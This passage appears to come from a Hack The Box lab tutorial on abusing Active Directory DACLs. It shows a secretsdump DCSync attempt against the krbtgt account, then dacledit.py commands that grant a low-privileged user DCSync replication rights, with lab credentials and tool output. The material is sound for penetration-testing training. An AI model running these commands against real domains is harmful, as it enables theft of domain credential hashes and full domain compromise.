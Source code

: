 Before editing the domain's `DACL`, let us try to perform the `DCSync` attack using [secretsdump](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) from [impacket](https://github.com/fortra/impacket):

# Attempting DCSync before DACL Modification

```shell
anas21@htb[/htb]$ secretsdump.py -just-dc-user krbtgt inlanefreight.local/luna:Moon123@10.129.205.81

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```

Up until now, the only action we have done with `dacledit.py` has been querying `DACLs`; however, this tool also allows us to modify `DACLs`. We will use the `-action write` option to indicate that we want to modify the `DACL`, followed by the `-rights dcsync` option to indicate the access rights we want to assign to the account one we have selected.

# Modify DACLs with dacledit.py

```shell
anas21@htb[/htb]$ python3 examples/dacledit.py -principal luna -target-dn dc=inlanefreight,dc=local -dc-ip 10.129.205.81 inlanefreight.local/luna:Moon123 -action write -rights DCSync

Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] DACL backed up to dacledit-20230518-130322.bak
[*] DACL modified successfully!
```

Afterward, if we enumerate the `DACL`, we will be able to see that the access rights were indeed modified:

# Querying Luna's DACL over the Domain

```shell
anas21@htb[/htb]$ python3 examples/dacledit.py -principal luna -target-dn dc=inlanefreight,dc=local -dc-ip 10.129.205.81 inlanefreight.local/luna:Moon123

Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1267651629-1192007096-1618970724-4618)
[*]   ACE[12] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : None
[*]     Access mask               : ControlAccess
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : DS-Replication-Get-Changes (1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
[*]     Trustee (SID)             : luna (S-1-5-21-1267651629-1192007096-1618970724-4618)
[*]   ACE[15] info                
[*]     ACE Type                  : ACCESS_ALLOWED_OBJECT_ACE
[*]     ACE flags                 : None
[*]     Access mask               : ControlAccess
```